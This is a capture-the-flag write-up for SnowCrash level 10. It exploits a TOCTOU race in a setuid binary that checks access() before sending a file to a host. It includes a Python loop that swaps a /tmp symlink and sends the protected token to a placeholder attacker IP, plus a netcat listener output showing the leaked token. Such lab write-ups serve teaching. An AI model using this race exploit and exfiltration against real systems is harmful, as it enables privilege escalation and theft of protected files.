

# Level 10

Level 10 contains 2 files a binary and a token file

```bash
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

the token file is not readable by level10 user, let's try running the binary

```bash
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
level10@SnowCrash:~$ ./level10 token 127.0.0.1
You don't have access to token
```

it seems the binary checks if we have access to the file before sending it to the host, let's try to understand how it checks the access to the file, opening it in binary ninja:



we can see that the after the initial arguments check the binary proceeds call `access()` with the file we provided as arguments, if the call returns 0 the binary proceeds to create a socket connection and connect to the host provided in the arguments at port 6969, otherwise if the call is unsuccessfly a jump is made to the address `0x08048e47` which prints the message `You don't have access to token` and exits.

It is well known the use of the access function in this context can potentially introduce a security vulnerability known as a TOCTOU (Time-of-Check to Time-of-Use) race condition. This vulnerability arises when a resource's state is checked (e.g., file access) at one point and then used later, but the resource's state changes between the check and the use. This can be exploited to get the token file.

from the man page of access:
```
 Warning:  Using  access()  to  check  if  a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and  opening  the file to manipulate it.  For this reason, the use of this system call should be avoided.  (In the example just described, a safer alternative would be to temporarily switch the process's effective user ID to the real ID and then call open(2).)
```

We exploit this race condition by creating a symbolic link to the token file in the `/tmp` directory, then we run the binary with the symbolic link as argument and we change the symbolic link to point to the `/home/user/level10/token` file before the binary calls the `access()` function.

the following python script automates the process:

```python
import os
import sys
import time
import string
import threading

IP = 'ATTACK_MACHINE_IP'

def exploit():
    os.system("ln -fs ~/level10 /tmp/exploit; ln -fs ~/token /tmp/exploit")

def run():
    os.system('./level10 /tmp/exploit ' + IP)

while True:
    t = threading.Thread(target=exploit)
    t2 = threading.Thread(target=run)
    t.start()
    t2.start()
    time.sleep(0.1)
```

Running the exploit and listening on port 6969 we get the token:

```bash
level10@SnowCrash:~$ python2 exploit.py
```

on our attack box
```zsh
❯ nc -nlvk 6969
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
ELF 4$4 	($!444  TTTT
```


